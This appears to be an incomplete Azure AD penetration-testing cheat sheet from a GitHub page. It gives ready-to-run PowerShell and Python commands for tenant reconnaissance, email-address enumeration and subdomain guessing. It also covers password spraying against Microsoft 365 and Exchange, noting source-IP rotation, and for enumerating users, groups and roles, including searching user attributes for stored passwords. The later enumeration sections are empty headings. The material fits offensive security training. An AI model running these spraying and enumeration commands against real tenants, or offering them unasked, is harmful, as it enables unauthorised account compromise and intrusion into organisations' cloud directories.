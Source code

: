 ## Recon
#### Recon Azure Tenant using [AADInternals](https://github.com/Gerenios/AADInternals)
```powershell
# Get tenant name, authentication, brand name (usually same as directory name) and domain name
Get-AADIntLoginInformation -UserName root@defcorphq.onmicrosoft.com

# Get Tenant ID
Get-AADIntTenantID -Domain defcorphq.onmicrosoft.com

# Get Tenant Domain 
Get-AADIntTenantDomains -Domain deffin.onmicrosoft.com

# Get all information
Invoke-AADIntReconAsOutsider -DomainName defcorphq.onmicrosoft.com
```

#### Recon Email IDs using [o365creeper](https://github.com/LMGsec/o365creeper)
```powershell
# Enumerate Email IDs by making requests to the `GetCredentialType` API
python.exe o365creeper.py -f emails.txt -o validemails.txt
```

#### Recon Azure Services by [microburst](https://github.com/NetSPI/MicroBurst)
```powershell
# Enumerates subdomains by subdomain guessing
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

## Initial Access
#### Password Spray using [MSOLSPray](https://github.com/dafthack/MSOLSpray)
```powershell
# The tool can use **fireprox** to change source IP
Invoke-MSOLSpray -UserList validemails.txt -Password 'P@ssw0rd' -Verbose
```

#### Password Spray against the exchange service using [MailSniper](https://github.com/dafthack/MailSniper)
```powershell
Invoke-PasswordSprayEWS -ExchHostname outlook.office365.com -UserList gotham-emails.txt -Password Gotham2020
```

## Enumeration
#### User Enumeration
```powershell
# Enumerate all users
powershell Get-AzureADUser -All $true

# Enumerate a specific user
Get-AzureADUser -ObjectId 'test@defcorphq.onmicrosoft.com'

# Search for a user based on string in first characters of DisplayName or userPrincipalName (wildcard not supported)
Get-AzureADUser -SearchString "admin"
Get-AzureADUser -All $ |?{$_.Displayname -match "admin"}

# List all attributes for a user
Get-AzureADUser -ObjectId 'test@defcorphq.onmicrosoft.com' | fl *

# Search attributes for all users that contain the string "password"
Get-AzureADUser -All $true|%{$Properties = $_;$Properties.PSObject.Properties.Name |${if ($Properties.$_ -match 'password'){"$($Properties.UserPrincipalName) - $_ - $($Properties.$_)"}}}

# All users who are synced from on prem
Get-AzureADUser -All $true \|? {$_.OnPremisesSecurityIdentifier -ne $null}

# All users who are synced from AzureAD
Get-AzureADUser -All $true \|? {$_.OnPremisesSecurityIdentifier -eq $null}

# Objects created by any user (use -ObjectId for a specific user)
Get-AzureADUser \| Get-AzureADUserCreatedObject
```
#### Group Enumeration
```powershell
# List All Groups
Get-AzureADGroup -All $true

# Enumerate a specific group
Get-AzureADGroup -ObjectId 783a312d 0de2 4490 92e4 539b0e4ee03e

# Search for a group based on string in first characters of DisplayName (wildcard not supported)
Get-AzureADGroup -SearchString "admin" \| fl *

# Search for groups which contain the word "admin" in their name
Get-AzureADGroup -All $true \|? {$_.Displayname -match "admin"}

# Get Groups that allow Dynamic membership (Note the cmdlet name)
Get-AzureADMSGroup \|?{$_.GroupTypes -eq 'DynamicMembership'}

# All groups that are synced from on prem (note that security groups are not synced)
Get-AzureADGroup -All $true \|?{$_.OnPremisesSecurityIdentifier -ne $null }

# All groups that are from Azure AD
Get-AzureADGroup -All $true \|?{$_.OnPremisesSecurityIdentifier -eq $null }

# Get group members
Get-AzureADGroupMember -ObjectId 783a312d-0de2-4490-92e4-539b0e4ee03e

# Get groups and roles where the specified user is a member
Get-AzureADUser -SearchString 'test' \| Get-AzureADUserMembership -ObjectId 'test@defcorphq.onmicrosoft.com'
```
#### Role Enumeration
```powershell
# Get all available role templates
Get-AzureADDirectoryroleTemplate

# Get all roles
Get-AzureADDirectoryRole

# Enumerate users to whom roles are assigned
Get-AzureADDirectoryRole -Filter "DisplayName" -eq 'GlobalAdministrator' \| Get-AzureADDirectoryRoleMember
```
#### Device Enumeration
```powershell

```
#### Apps Enumeration
#### Service Principals Enumeration

### Enumeration Using [ROADTools](https://github.com/dirkjanm/ROADtools)
### Enumeration Using [AzureHound](https://github.com/dirkjanm/ROADtools)
### Enumeratin Using [StormSpotter](https://github.com/Azure/Stormspotter)

